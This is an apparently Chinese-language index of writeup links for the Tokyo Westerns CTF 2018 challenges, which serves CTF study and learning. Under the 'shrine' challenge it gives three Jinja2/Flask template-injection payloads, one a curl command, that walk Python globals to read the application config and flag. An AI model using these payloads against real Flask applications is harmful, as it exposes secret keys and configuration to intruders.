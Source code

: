 比赛时间：2018/09/01 01:00:00 UTC — 2018/09/03 01:00:00 UTC

比赛地址：https://score.ctf.westerns.tokyo/

### Writeup

- **scs7**

  https://ctftime.org/writeup/10861 by hackstreetboys

- **pysandbox**

  https://ctftime.org/task/6513 by hackstreetboys

  https://ctftime.org/writeup/10852 by DoubleSigma

  https://github.com/pberba/ctf-solutions/tree/master/20180901_tokyo_western/pysandbox

- **vimshell**

  https://ctftime.org/writeup/10860 by Lorem Checksum

  https://ctftime.org/writeup/10859 by Lattice

  https://ctftime.org/writeup/10854 by DoubleSigma

- **shrine** 

  https://ctftime.org/writeup/10851 by DoubleSigma

  其他几种payload：

  ```bash
  curl -g "http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}"
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{session.__class__.__base__.get.__globals__['warnings']['sys']['modules']['app'].__dict__['app'].__dict__}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.__class__.__dict__['_load_form_data'].__globals__['current_app'].config}}
  ```

- **其他**：

  [Revolutional Secure Angou](https://ctftime.org/writeup/10862) by SealTeam1

  [Tokyo Western CTF 2018 (Qualification Round) Hints for some Crypto challenges](https://github.com/nguyenduyhieukma/CTF-Writeups/tree/master/Tokyo%20Western%20CTF/2018) 

  
